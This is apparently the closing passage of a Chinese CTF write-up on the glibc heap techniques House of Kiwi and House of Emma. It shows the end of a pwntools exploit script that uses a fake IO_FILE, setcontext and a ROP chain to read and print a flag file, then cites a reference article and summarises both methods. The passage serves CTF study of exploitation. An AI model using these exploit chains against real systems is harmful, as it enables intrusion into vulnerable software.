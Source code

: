 ```plain
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)

add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
sh.interactive()
```

参考文章：[第七届“湖湘杯”House \_OF \_Emma | 设计思路与解析 - 安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/260614#h3-10)

# 总结

House of kiwi 和 House of emma 都是较高版本的堆 IO 利用方法，这两种利用思路一脉相承，利用 malloc\_assert 达成了强大的攻击效果，同时在取消了 hook 后的 glibc2.34 仍有不错的发挥空间，是精妙且优秀的 IO 攻击方法。
